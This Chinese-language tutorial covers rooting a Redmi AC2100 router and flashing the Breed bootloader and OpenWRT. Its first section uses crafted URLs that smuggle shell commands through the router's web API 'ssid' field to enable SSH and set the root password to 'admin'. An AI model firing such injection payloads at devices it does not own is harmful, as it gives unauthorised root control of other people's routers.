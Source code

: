 # 红米路由器AC2100刷不死鸟breed、OpenWRT

## 一、从AC2100官方固件后台开启SSH

### 1.1 登录web后台，获取token
- 首次登录路由器后台，会进行初始配置，设置好wifi及后台管理密码。

- 确认路由器固件版本是：2.0.23

- 在浏览器中获取url地址

  ```
  http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/web/home#router
  ```
  \<STOK\>是登录后自动生成的token，32个字符，下面要用到；

### 1.2 在url中执行命令，开启ssh

用上面获取的token, 替换url中的<STOK>后，复制到浏览器的URL中打开，即可执行命令

```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```
返回{"code":0}即代表成功

上面是利用了官方固件的web注入漏洞执行命令
```
nvram set ssh_en=1;
nvram commit;
sed -i 's/channel=.*/channel=\"debug\"/g' /etc/init.d/dropbear; 
/etc/init.d/dropbear enable
/etc/init.d/dropbear start;
```
### 1.3 修改root密码为admin（可选操作）

echo -e 'admin\nadmin' | passwd root
```
> http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Aecho%20-e%20%27admin%5Cnadmin%27%20%7C%20passwd%20root%0A
```
### 1.4 使用ssh登录

> ssh root@192.168.31.1

密码是上面初始化配置的密码，如果不对可以参考1.3步骤修改root密码

```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```



## 二、刷入不死鸟Breed，配置环境变量

### 2.1.刷入breed_boot

使用ssh客户端登录后台后，上传breed-mt7621-xiaomi-r3g.bin 到   /tmp  
```
nvram set uart_en=1
nvram set bootdelay=5
nvram set flag_try_sys1_failed=1
nvram commit

cd /tmp
mtd -r write breed-mt7621-xiaomi-r3g.bin Bootloader
```

执行命令后，路由器自动重启，等重启重新入web控制台；

如果路由器在60秒内重启则代表刷BREED成功(灯会从蓝变橘，最终变蓝进入系统)。

### 2.2.刷入成功后拔掉电源，按住reset同时接上电源等10秒即可进入breed。

### 2.3.设置PC为自动获取IP地址，访问http://192.168.1.1 进入Breed Web恢复控制台；

### 2.4. 添加环境变量 xiaomi.r3g.bootfw ,值设置为 2

### 2.5 (可选步骤) 进入“小米 R3G 设置”找到字段“normal_firmware_md5”，点击最右边的删除并保存，完后再刷固件

## 三、在Breed中刷入openwrt过渡包

### 3.1.恢复openwrt过渡包 AC2100-Breed-MiddleRom.bin, 等待设备重启；

### 3.2.重启后访问 http://192.168.1.1/，即可进入openwrt后台；

## 四、升级到最新OpenWRT官方固件

### 4.1 进入openwrt后台，System -> Backup / Flash Fireware

### 4.2. Flash new firmware image

-  择WRT完整升级固件openwrt-21.02.0-rc4-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-sysupgrade.bin，
-  不要勾选 Keep settings and retain the current configuration，
-  点击 “Flash Image...”上升刷入固件, 
-  最后点Continue，等几分钟让路由器自己重启



## 相关url

- OpenWRT官方固件下载
  > https://downloads.openwrt.org/releases/21.02.0-rc4/targets/ramips/mt7621/
  > https://firmware-selector.openwrt.org/?version=21.02.0-rc4&target=ramips%2Fmt7621&id=xiaomi_redmi-router-ac2100

- Wiki 

  > https://openwrt.org/toh/xiaomi/xiaomi_redmi_router_ac2100#tab__shell_script

- 工具包下载

  > http://openwrt.ink:8666/

- 参考论坛帖子

  > [AC2100(RM2100)] 红米(小米)AC2100Breed和Padan固件教程及刷回官方教程 https://www.right.com.cn/FORUM/thread-4059522-1-1.html
  >
  > [AC2100(RM2100)] 红米/小米AC2100刷入r3g breed以及恢复官方boot详细教程（更新查坏块方法、pb-boot）https://www.right.com.cn/forum/thread-4023907-1-1.html

- 




